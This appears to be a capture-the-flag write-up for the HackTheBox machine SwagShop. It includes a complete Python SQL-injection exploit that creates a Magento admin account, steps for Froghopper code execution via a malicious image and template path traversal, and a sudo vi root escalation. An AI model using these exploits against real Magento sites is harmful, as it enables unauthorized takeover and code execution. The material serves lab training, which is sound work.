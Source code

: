 ```yaml
---
title: HackTheBox - SwagShop
categories: htb Froghopper RCE SQLI
excerpt: | 
   Unicode is a easy difficulty Linux machine.

feature_text: |
  ## SwagShop - Easy 
  
feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```


### Scanning process
nmap ip:
```
      ___ ___                
    /| |/|\| |\          We are open!  (Almost)
     |   |.  |       Join the beta HTB Swag Store!
     |___|.__|       PS: Use rootflag as password! 

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Did not follow redirect to http://swagshop.htb/
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The machine begins with the enumeration of a webserver. It will redirect to swagshop.htb domain. Adding this to the /etc/hosts list, the main page will resolve good.
After look at the main page, an attacker would do a brute force enumeration of directories with `wfuzz`. This tool will report all combination with correct status code. Examine all of them. There would be a possible risk in shell directory...
Any way, it seems that is impossible to penetration, but look for vulnerabilities reported of Magento with `searchsploit` and there is an RCE. This one has some mistake so here you can see edited:

``` python
import requests
import base64
import sys

target = "http://swagshop.htb/index.php/"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""
query = q.replace("\n", "").format(username="forme", password="forme")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query).encode('utf-8')

r = requests.post(target_url,
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print ("WORKED")
    print ("Check {0}/admin with creds forme:forme".format(target))
else:
    print ("DID NOT WORK")

```
This script will create a new admin user with an SQLI.

### Exploit vulnerabilities
Once the attacker is inside the web as Administrator, he can exploit a *Froghopper* vulnerability. [This](https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper) is a tutorial where you'll learn about it. 

The Froghopper attack methodology is abaible in some unpathed versions of Magento 1. 
Firstly, the attacker can upload a file to the system. There are some extensions that are allowed. JPG and PNG are avaible. 
However, the system will not examine the content of this file, and in a typical Magneto configuration, files are uploaded and stored in a publicly accessible directory `media/catalog/category`.
Only the attacker needs is to launch this malicius file. In Magento is possible to upload a new template and execute block of command if you are admin... So, that's all.

Step by step:
1. Create an image with some malicios code at ends.
2. Upload it to the new category page. (Catalog > Manage Categories)
3. Generate a new template (Newsletter > Newsletter Template), include the next block of template code between \{\{...\}\}:
`block type='core/template' template='../../../../../../media/catalog/category/malicius_image.jpg'`
4. Finally see the results with the `Preview Template` Button.


### Privilege Scalation
Look for privilege: sudo -l.
> (root) NOPASSWD: /usr/bin/vi /var/www/html/\*

www-data can execute vi command as root in `/var/www/html/`. 
1. `sudo vi /var/www/html/notfound`
2. :set shell=/bin/bash
3. :shell
You get it! 
